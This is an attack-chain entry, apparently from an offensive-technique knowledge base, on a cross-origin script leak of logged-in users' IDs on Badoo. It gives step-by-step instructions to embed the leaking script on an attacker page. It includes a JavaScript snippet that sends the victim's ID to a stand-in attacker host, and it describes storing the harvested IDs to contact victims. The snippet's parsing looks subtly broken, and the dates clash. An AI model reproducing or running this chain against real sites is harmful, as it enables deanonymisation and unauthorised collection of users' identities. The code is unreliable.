

---
tags:
  - information-disclosure
  - cross-origin
  - javascript
  - user-id-leak
  - privacy-violation
  - targeted-advertising
type: attack_chain
tools: []
tactics:
  - '[[Collection]]'
  - '[[Reconnaissance]]'
commands:
  - '[[commands/unmask-user-and-exfil-js]]'
  - '[[commands/store-user-id-php]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Identify-Vulnerable-JavaScript-File]]'
  - '[[procedures/Embed-Script-in-Malicious-Webpage]]'
  - '[[procedures/Extract-and-Exfiltrate-User-ID]]'
  - '[[procedures/Store-and-Utilize-Collected-User-IDs]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Multi-stage attack exploiting a publicly accessible JavaScript file on Badoo
  that embeds the logged-in user's ID, allowing cross-origin loading and
  extraction for privacy-violating targeted advertising.
skill_level: intermediate
impact_level: high
id: ea198cac-5af2-41bd-ac75-ee33eb93b8c1
created_at: '2025-12-14T17:28:52.112Z'
updated_at: '2025-12-14T17:28:52.112Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Collection]]'
  - '[[Reconnaissance]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Badoo User ID Leak via Cross-Origin Script Loading

Multi-stage attack chain demonstrating exploitation of a publicly accessible service worker JavaScript file on Badoo that includes the user_id of logged-in users, enabling cross-origin extraction and collection for unauthorized targeted campaigns.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard web development tools like a text editor and web server)

### Target Environment

- Web platform
- Badoo website with logged-in users
- Attacker-controlled domain for hosting malicious page and server-side script

### Initial Access Requirements

- No credentials needed for the vulnerable endpoint
- Victim must be logged into Badoo and visit attacker's site
- Network access to load cross-origin scripts

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Script
procedure: [[procedures/Identify-Vulnerable-JavaScript-File]]

**Objective**: Locate and examine the public JavaScript file that exposes user-specific data.

**Instructions**: Access the URL https://badoo.com/worker-scope/chrome-service-worker.js?ws=1 in a browser while logged into Badoo. Inspect the script content to identify the global user_id variable, which is populated based on the session.

**Expected Output**: Script source revealing a line like `user_id = '12345';` where 12345 is the victim's user ID.

**Success Indicators**:
- Script loads without authentication
- user_id variable is present and user-specific

### Step 2: Embed Script in Malicious Webpage
procedure: [[procedures/Embed-Script-in-Malicious-Webpage]]

**Objective**: Host a webpage that loads the vulnerable script cross-origin to access the exposed data.

**Instructions**: Create an HTML file on your domain with `<script src="https://badoo.com/worker-scope/chrome-service-worker.js?ws=1"></script>`. Host this page on a server (e.g., via Apache or Node.js) accessible to victims.

**Expected Output**: When a logged-in Badoo user visits the page, the script executes in their browser, injecting the user_id into the global scope.

**Success Indicators**:
- Script loads successfully from cross-origin without CORS blocks
- No errors in browser console related to script access

### Step 3: Extract and Exfiltrate User ID
procedure: [[procedures/Extract-and-Exfiltrate-User-ID]]

**Objective**: Parse the user_id from the script and send it to the attacker's server.

**Instructions**: Add the following JavaScript to the malicious HTML after the script tag: Execute [[commands/unmask-user-and-exfil-js]] on window.onload to parse and transmit the ID via XMLHttpRequest to http://MyfancyEvilWebsite.com/identity-stealer.php.

```javascript
function UnmaskUser(str) { return str.split('=')[0]; } window.onload = function(){ var user = UnmaskUser(user_id); var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://MyfancyEvilWebsite.com/identity-stealer.php?victim=' + user , true); xhr.send(); };
```

**Expected Output**: GET request sent to attacker's endpoint with victim parameter containing the user ID.

**Success Indicators**:
- Network tab shows outgoing request with user ID
- Server logs confirm receipt of data

### Step 4: Store and Utilize Collected User IDs
procedure: [[procedures/Store-and-Utilize-Collected-User-IDs]]

**Objective**: Receive, store, and leverage the collected IDs for targeted actions.

**Instructions**: Deploy a PHP endpoint at /identity-stealer.php using [[commands/store-user-id-php]] to append IDs to a file. Once collected, use the list to send private messages or emails via Badoo features.

**Expected Output**: User IDs appended to badoo-users-interested-in-my-product.txt.

**Success Indicators**:
- File grows with unique user IDs
- IDs can be used to contact victims on Badoo

## Attack Chain Summary

### Key Achievements

1. Identified a public JS file leaking user IDs cross-origin
2. Demonstrated extraction without authentication
3. Enabled unauthorized collection for privacy violations

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Collection]]
- [[Reconnaissance]]

---
*Last updated: 2023-10-01*
